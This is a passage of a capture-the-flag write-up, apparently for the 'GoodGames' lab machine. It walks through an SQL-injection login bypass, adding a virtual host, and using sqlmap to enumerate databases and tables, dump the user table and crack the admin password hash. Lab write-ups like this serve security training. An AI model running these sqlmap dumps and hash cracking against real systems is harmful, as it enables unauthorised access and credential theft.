After detecting a valid SQL injection for an authentication bypass, we go to the settings icon at the top of the webpage an we found the following



So we add this url to our etc/host becasuse we are on front to the virtual host.



We try to click anothertime to settings button to reload the page



We change the email back to admin@goodgames.htb and save the request to a file called goodgames.req . Use SQLMap enumerate the database.


```bash
$ sqlmap -r goodgames.req
```




Enumerate the database and tables to identify any sensitive information stored in the database.
```bash
$ sqlmap -r goodgames.req --dbs
```


Enumerate the database named main by extracting the table names.
```bash
$ sqlmap -r goodgames.req -D main --tables
```



Extract all the data from the user table.
```bash
$ sqlmap -r goodgames.req -D main -T user --dump
```


Disclosed is an admin's password hash. → https://crackstation.net/



Now we can login the last web page.




[Back](README.md)